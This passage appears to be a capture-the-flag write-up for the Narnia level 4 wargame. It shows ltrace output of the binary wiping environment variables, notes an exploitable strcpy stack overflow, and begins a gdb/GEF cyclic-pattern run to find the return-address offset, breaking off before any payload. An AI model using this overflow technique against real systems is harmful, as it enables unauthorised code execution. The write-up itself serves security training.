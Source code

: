 strlen("LANG=en_US.UTF-8")                                              = 16
memset(0xffffde41, '\0', 16)                                            = 0xffffde41
strlen("LC_NAME=ro_RO.UTF-8")                                           = 19
memset(0xffffde52, '\0', 19)                                            = 0xffffde52
strlen("USER=narnia4")                                                  = 12
memset(0xffffde66, '\0', 12)                                            = 0xffffde66
strlen("PWD=/narnia")                                                   = 11
memset(0xffffde73, '\0', 11)                                            = 0xffffde73
strlen("HOME=/home/narnia4")                                            = 18
memset(0xffffde7f, '\0', 18)                                            = 0xffffde7f
strlen("SSH_CLIENT=82.79.100.14 39318 22"...)                           = 32
memset(0xffffde92, '\0', 32)                                            = 0xffffde92
strlen("LC_ADDRESS=ro_RO.UTF-8")                                        = 22
memset(0xffffdeb3, '\0', 22)                                            = 0xffffdeb3
strlen("LC_NUMERIC=ro_RO.UTF-8")                                        = 22
memset(0xffffdeca, '\0', 22)                                            = 0xffffdeca
strlen("SSH_TTY=/dev/pts/2")                                            = 18
memset(0xffffdee1, '\0', 18)                                            = 0xffffdee1
strlen("MAIL=/var/mail/narnia4")                                        = 22
memset(0xffffdef4, '\0', 22)                                            = 0xffffdef4
strlen("TERM=xterm-256color")                                           = 19
memset(0xffffdf0b, '\0', 19)                                            = 0xffffdf0b
strlen("SHELL=/bin/bash")                                               = 15
memset(0xffffdf1f, '\0', 15)                                            = 0xffffdf1f
strlen("TMOUT=1800")                                                    = 10
memset(0xffffdf2f, '\0', 10)                                            = 0xffffdf2f
strlen("SHLVL=1")                                                       = 7
memset(0xffffdf3a, '\0', 7)                                             = 0xffffdf3a
strlen("LC_TELEPHONE=ro_RO.UTF-8")                                      = 24
memset(0xffffdf42, '\0', 24)                                            = 0xffffdf42
strlen("LOGNAME=narnia4")                                               = 15
memset(0xffffdf5b, '\0', 15)                                            = 0xffffdf5b
strlen("PATH=/usr/local/bin:/usr/bin:/bi"...)                           = 61
memset(0xffffdf6b, '\0', 61)                                            = 0xffffdf6b
strlen("LC_IDENTIFICATION=ro_RO.UTF-8")                                 = 29
memset(0xffffdfa9, '\0', 29)                                            = 0xffffdfa9
strlen("OLDPWD=/home/narnia4")                                          = 20
memset(0xffffdfc7, '\0', 20)                                            = 0xffffdfc7
strlen("_=/usr/bin/ltrace")                                             = 17
memset(0xffffdfdc, '\0', 17)                                            = 0xffffdfdc
+++ exited (status 0) +++
```
It would seem that because of that ```strcpy``` that is carelessly used we can also overflow the stack frame. Let's find the offset for the return address:
```
narnia4@narnia:/narnia$ gdb ./narnia4
(gdb) source /usr/local/gef/gef.py 
gef➤  patt create 300
[+] Generating a pattern of 300 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
[+] Saved as '$_gef0'
gef➤  r aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
Starting program: /narnia/narnia4 aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
